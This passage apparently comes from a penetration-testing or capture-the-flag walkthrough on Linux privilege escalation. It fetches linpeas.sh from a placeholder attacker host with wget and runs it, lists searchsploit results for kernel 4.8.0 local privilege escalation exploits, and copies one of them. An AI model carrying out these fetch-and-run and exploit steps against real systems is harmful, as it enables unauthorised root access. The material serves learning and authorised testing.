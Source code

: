 
**->** Nothing really interesting.  
When i get infos like this i check the kernel for exploits and get **lineeas** ready
for uploading.
    
  
## <ins> Linpeas </ins>
  
  
Upload:  
`cd /tmp`  
`wget http://$local-ip:$port/linpeas.sh`  
`chmod +x linpeas.sh`  
`./linpeas.sh | tee lin.log`  
  
---
  

## <ins> Kernel Exploitation</ins>
  
@Kali System
  

```sh
searchsploit kernel 4.8.0
------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                         |  Path
------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                                             | linux/local/41886.c
Linux Kernel 4.8.0-22/3.10.0-327 (Ubuntu 16.10 / RedHat) - 'keyctl' Null Pointer Dereference           | linux/dos/40762.c
Linux Kernel 4.8.0-34 < 4.8.0-45 (Ubuntu / Linux Mint) - Packet Socket Local Privilege Escalation      | linux/local/47168.c
Linux Kernel 4.8.0-41-generic (Ubuntu) - Packet Socket Local Privilege Escalation                      | linux/local/41994.c

```
  

> When you get a lot of output, filter it like my output. Check for Version and "what to do". So I choose Version 4.8.0 and
"Privilege Escalation"
  

`searchsploit -m linux/local/41994.c` # copy the exploit to the current location
  
`subl 41994.c` # Open the exploit in a editor of your choice and the what the exploit will do or how to run.
  


## <ins> Priv Esc installation </ins>
  